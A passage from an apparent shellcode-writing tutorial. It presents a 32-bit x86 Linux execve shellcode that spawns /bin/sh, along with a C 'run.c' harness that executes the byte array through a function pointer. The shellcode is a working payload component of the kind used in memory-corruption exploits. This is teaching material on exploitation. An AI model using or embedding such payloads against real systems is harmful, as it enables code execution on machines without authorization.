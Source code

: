 ![execve shellcode 2.1](/assets/images/12/2021-10-11_13-35.png){:class="img-responsive"}    

So, our shellcode is:       
```cpp
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"
```

Then, replace the code at the top (`run.c`) with:     
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```
